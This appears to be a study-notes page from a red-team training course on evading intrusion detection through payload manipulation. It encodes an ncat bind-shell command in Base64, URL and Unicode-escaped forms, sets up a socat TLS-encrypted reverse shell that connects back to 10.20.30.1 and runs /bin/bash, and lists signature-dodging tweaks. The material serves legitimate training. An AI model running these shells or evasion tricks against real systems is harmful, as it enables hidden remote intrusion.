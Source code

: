 # Evasion via payload manipulation

Evasion via payload manipulation includes:

* Obfuscating and encoding the payload.
* Encrypting the communication channel.
* Modifying the shellcode.

## Obfuscating and encoding the payload

Because IDS rules are very specific, minor changes to avoid detection can work. The changes include adding extra bytes, 
obfuscating the attack data, and encrypting the communication.

Consider the command `ncat -lvnp 1234 -e /bin/bash`, where `ncat` will listen on TCP port `1234` and connect any 
incoming connection to the Bash shell. There are a few common transformations such as Base64, URL encoding, and 
Unicode escape sequence that can be applied to the command to avoid triggering IDS/IPS signatures.

Encode to a Base64 format:

```text
$ cat input.txt
ncat -lvnp 1234 -e /bin/bash
$ base64 input.txt
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
```

URL encoding:

```text
$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

## Escaped Unicode

Some applications will still process input and execute it properly if escaped Unicode is used. There are multiple 
ways to use escaped Unicode depending on the system processing the input string. For example, 
[CyberChef](https://icyberchef.com/)  can be used to select and configure the Escape Unicode Characters.

1. Search for Escape Unicode Characters
2. Drag it to the Recipe column
3. Check-mark Encode all chars with a prefix of `\u`
4. Make sure there is a check-mark near Uppercase hex with a padding of 4

| ![Cyberchef](../../_static/images/cyberchef-netsec.png) |
|:--:|
| Clearly a drastic transformation that would help evade detection, assuming the target system will <br>interpret it correctly and execute it. |

Using the format `\uXXXX`, `ncat -lvnp 1234 -e /bin/bash` becomes: 

    \u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068 

## Encrypting the communication channel

Because an IDS/IPS will not inspect encrypted data, an attacker can take advantage of encryption to evade detection. 
Unlike encoding, encryption requires an encryption key and decrypting on the other side.

One direct approach is to create the necessary encryption key on the attacker’s system and set socat to use the 
encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be 
carried out in three steps:

1. Create the key
2. Listen on the attacker’s machine
3. Connect to the attacker’s machine

Create key using `openssl`:

    $ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
    $ ls
    thm-reverse.crt  thm-reverse.key

* `req` indicates that this is a certificate signing request (not submitting it for signing).
* `-x509` specifies an X.509 certificate
* `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 
bits.
* `-days` validity in days
* `-subj` sets data, such as organization and country, via the command-line.
* `-nodes` simplifies the command and does not encrypt the private key
* `-keyout` PRIVATE_KEY specifies the filename to save the private key to
* `-out` CERTIFICATE specifies the filename to which to write the certificate request

The command returns a private key `thm-reverse.key` and a certificate `thm-reverse.crt`.

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate 
`.crt` files:

    cat thm-reverse.key thm-reverse.crt > thm-reverse.pem

With the PEM file ready, start listening while using the key for encrypting the communication with the client:

    socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

On the target system, connect back:

    socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash

## Modifying the shellcode

Consider the simple case of using Ncat to create a bind shell. The command `ncat -lvnp 1234 -e /bin/bash` tells 
ncat to listen on TCP port 1234 and bind Bash shell to it. To detect packets containing such commands, think of 
something specific to match the signature but not too specific. So will attackers:

* Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
* On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as 
`ncat  -` which would still run correctly on the target system.
* If the IDS is looking for `ncat`, then simple changes to the original command are unlikely to evade detection. 
Consider more sophisticated approaches depending on the target system/application. One option would be to use a 
different command such as nc or socat. Alternatively, consider a different encoding if the target system can 
process it properly.

## Resources

* [section 2.4 in RFC 3986 (URL encoding: When to Encode or Decode)](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4)

